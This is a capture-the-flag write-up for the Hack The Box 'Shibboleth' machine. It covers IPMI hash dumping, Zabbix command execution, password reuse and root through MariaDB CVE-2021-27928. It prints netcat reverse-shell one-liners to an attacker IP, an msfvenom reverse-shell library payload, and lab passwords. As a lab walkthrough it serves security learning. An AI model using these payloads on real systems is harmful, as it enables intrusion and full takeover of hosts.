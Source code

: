# Shibboleth Machine(10.10.11.124)

## Info:

This was a medium linux box which aimed at teaching players about zabbix, mariadb command injection and password resuse vulnerability.


![Shibboleth](https://user-images.githubusercontent.com/79413473/161095761-dc02d183-18a6-4fa5-bc8a-08a6f27eb2ec.png)

## Recon:

Starting with port scan, only one port is shown open, we can always run full port scan in background.

```
rustscan -a 10.10.11.124 -u 5000`

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

### UDP port scan

As rustscan supports only TCP we will use nmap for UDP scanning.

```
sudo nmap -sU 10.10.11.124:

PORT    STATE SERVICE
623/udp open  asf-rmcp
```
This port is used in remote remote monitoring systems. Running better nmap scan on it

![Screenshot from 2022-03-31 22-06-11](https://user-images.githubusercontent.com/79413473/161105966-1b7fea0a-3e79-45d2-96e7-ad7a30c0bbc7.png)

Let's add **shibboleth.htb** to our hosts file and also run vhost scanning in background.

![Screenshot from 2022-03-31 21-30-16](https://user-images.githubusercontent.com/79413473/161099030-18fc5f83-b9bb-49bc-816b-a9b4992e34a4.png)

```
ffuf -u http://shibboleth.htb/ -w ~/wordlist/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.shibboleth.htb" -fc 302
```

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://shibboleth.htb/
 :: Wordlist         : FUZZ: /home/ubuntu/wordlist/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.shibboleth.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 302
________________________________________________

monitor                 [Status: 200, Size: 3689, Words: 192, Lines: 30, Duration: 303ms]
monitoring              [Status: 200, Size: 3689, Words: 192, Lines: 30, Duration: 425ms]
zabbix                  [Status: 200, Size: 3689, Words: 192, Lines: 30, Duration: 418ms]
:: Progress: [4989/4989] :: Job [1/1] :: 124 req/sec :: Duration: [0:00:43] :: Errors: 0 ::
```

Let's add these hosts to our */etc/hosts* file as well.

Each one of them have same landing page. **zabbix.shibboleth.htb**, **monitor.shibboleth.htb**, **monitoring.shibboleth.htb**.

![Screenshot from 2022-03-31 22-09-38](https://user-images.githubusercontent.com/79413473/161137287-38e76465-fc8e-4a01-b86c-e54e8ddd5fd1.png)

Where google describe **zabbix** as *Zabbix is an open-source software tool to monitor IT infrastructure such as networks, servers, virtual machines, and cloud services. Zabbix collects and displays basic metrics.*

Directory and file fuzzing doesn't reveal much other than common files like *index.html*, *assets*, *contact* etc.


## Foothold: IPMI hash dump

As hacktricks [says](https://book.hacktricks.xyz/pentesting/623-udp-ipmi#vulnerability-ipmi-2.0-rakp-authentication-remote-password-hash-retrieval), we can retrieve default user's hashed password using metasploit module *scanner/ipmi/ipmi_dumphashes*

![Screenshot from 2022-03-31 22-33-02](https://user-images.githubusercontent.com/79413473/161110610-5ecbacde-5aff-49bb-bd4e-19f6ba7e09a0.png)

It dumps the **Administrator** user's hash let's crack that with hashcat. You can specify output format in metasploit as well. Manually you can put just hash without username in a file. i cracked using hashcat on google [colab](https://colab.research.google.com/github/mxrch/penglab/blob/master/penglab.ipynb)

```
!hashcat/hashcat "01c82d308205000004872b9f98e0052b521984be95a86bd5a70c5d5a69e7ab29e42e1849a8a359b1a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:4ae0c52b06606c6407c0a16a0bf117ffc9d9e6a1" wordlists/rockyou.txt
```
It tells the password, 

![Screenshot from 2022-03-31 22-42-26](https://user-images.githubusercontent.com/79413473/161112172-70999d74-69e0-4d37-a16b-dbbf63520403.png)

let's login to zabbix using that.

![Screenshot from 2022-03-31 22-44-42](https://user-images.githubusercontent.com/79413473/161112500-10281b18-00c4-456e-9b0d-7d7a1d23d035.png)

### getting reverse shell from zabbix:

*PS: As of today(31 March 2022) while writing this blog , i searched for zabbix version 5.0.17 exploit and there is a Authenticated [CVE](https://www.exploit-db.com/exploits/50816) which works pretty well. But that is not the intended path as box was released in 2021 and this exploit is dropped on March 9th 2022.*

![Screenshot from 2022-03-31 23-44-33](https://user-images.githubusercontent.com/79413473/161122673-2fb2f1e9-7fc2-436e-97f8-e945c0fe9ca4.png)

I remember first time i did this machine i searched how to execute commands with zabbix and found [this](https://www.youtube.com/watch?v=Oha53b00vR0) video. Basically using zabbix agent we can execute commands on system.

Got to hosts and create a new item 

![2022-03-31_23-26](https://user-images.githubusercontent.com/79413473/161119613-b41399b8-1c8d-4ef3-b2f6-20bb3c56aa2c.png)

![2022-03-31_23-27](https://user-images.githubusercontent.com/79413473/161119731-ff91f6b8-553e-45e8-aeb5-e6b2c08e0e85.png)

And using **system.run[]** in zabbix agent we can execute arbitrary command. Reading little bit of docs we can find it runs in 2 modes wait & nowait, where wait is default.

Create items with wait mode

![2022-03-31_23-31](https://user-images.githubusercontent.com/79413473/161124408-4b721be6-380e-42af-9fec-8dc8475174f7.png)

```
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 8083 >/tmp/f]
```
and i got the shell and it dies instantly.

![Screenshot from 2022-03-31 23-38-18](https://user-images.githubusercontent.com/79413473/161121607-5e58b195-daef-4723-b3f1-76b4f27552e2.png)

While asking for help earlier i learned that you can start a process in a new session, which won't be killed by zabbix, using **setsid** command.

```
setsid rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 8083 >/tmp/f
``` 
setsid would keep your shell alive. But let's try this with nowait once.

![Screenshot from 2022-03-31 23-41-15](https://user-images.githubusercontent.com/79413473/161122268-b898a475-e11c-4789-bba3-20720556fd83.png)

But same problem persist. So let's switch  to setsid payload and it works successfully.

![Screenshot from 2022-03-31 23-46-35](https://user-images.githubusercontent.com/79413473/161122960-18c076ed-f682-41e6-8f67-7890f2069f91.png)

Let's upgrade to tty shell 

![Screenshot from 2022-03-31 23-47-27](https://user-images.githubusercontent.com/79413473/161123167-f675893e-32f4-4aec-84de-d66a346d4678.png)

Reading apache2 conf file, we can see zabbix root directory is **/usr/share/zabbix**

![Screenshot from 2022-03-31 23-56-44](https://user-images.githubusercontent.com/79413473/161124692-f9bfa4e3-673f-48b5-93e8-7adaa8669e08.png)

Also note that monitor & monitoring vhost are just alias for zabbix only.

## Lateral Movement: password reuse

I started enumerating the box with linpeas, and found some interesting path like **/etc/zabbix** and **/var/log/zabbix** which has content related to zabbix. I started hunting password for zabbix database but couldn't find it as it isn't in **/usr/share/zabbix**. And conf files in **/etc/zabbix** aren't redable by zabbix user which can have password as suggested by few google searches.

But thing was that we already have a password which we cracked earlier for **Administrator** user. Let's try that 

```
su ipmi-svc
Password: ilovepumkinpie1
```

![Screenshot from 2022-04-01 00-29-22](https://user-images.githubusercontent.com/79413473/161129623-05047656-fa2e-4d5c-bc81-9827ddd614c3.png)


## Privilege Escaltion: CVE-2021-27928 exploit

Now from **/etc/zabbix/zabbix_server.conf** file we can also read database password

```
DBUser=zabbix
DBPassword=bloooarskybluh
```
Let's login using these creds, and it tells mariadb version

![Screenshot from 2022-04-01 00-39-07](https://user-images.githubusercontent.com/79413473/161131241-b9ad41e4-9f44-4279-8ccc-918f99a4cbc5.png)

Google this version no. and it is vulnerable to CVE-2021-27928. Accoridng to [description](https://nvd.nist.gov/vuln/detail/CVE-2021-27928) user can
inject command by modifying *wsrep_provider* [library](https://mariadb.com/kb/en/galera-cluster-system-variables/#wsrep_provider).  let's follow [these](https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html) steps.

Create a malicious shared library file using msfvenom 
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.4 LPORT=8084 -f elf-so -o exploit.so
```
Transfer this to machine using python webserver. I like to use **updog**

![Screenshot from 2022-04-01 00-53-43](https://user-images.githubusercontent.com/79413473/161133488-7fffd189-c535-4d27-ac70-14b3dec837e9.png)

Execute the payload by specifying the **-e** flag , by default host(-h) is set to localhost.

```
mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/tmp/exploit.so";'
```
![Screenshot from 2022-04-01 00-57-05](https://user-images.githubusercontent.com/79413473/161133971-d298c1c3-69ee-4915-8efc-ef8262628e49.png)

on my listener, 

![Screenshot from 2022-04-01 00-57-34](https://user-images.githubusercontent.com/79413473/161134032-70b65166-e0b7-4112-8cef-7b0e6d50f225.png)

As mariadb was running as root(uid=0) , that's why we get our shell in root's context

![Screenshot from 2022-04-01 01-14-40](https://user-images.githubusercontent.com/79413473/161136549-e6a607a3-ab3f-42d3-828e-1755233804ca.png)

And that's how we get root on this machine.

Thanks for reading, feedbacks are welcome and don't forget to cleanup your scripts and exploits before leaving the machine.

Twitter: [Avinashkroy](https://twitter.com/Avinashkroy)
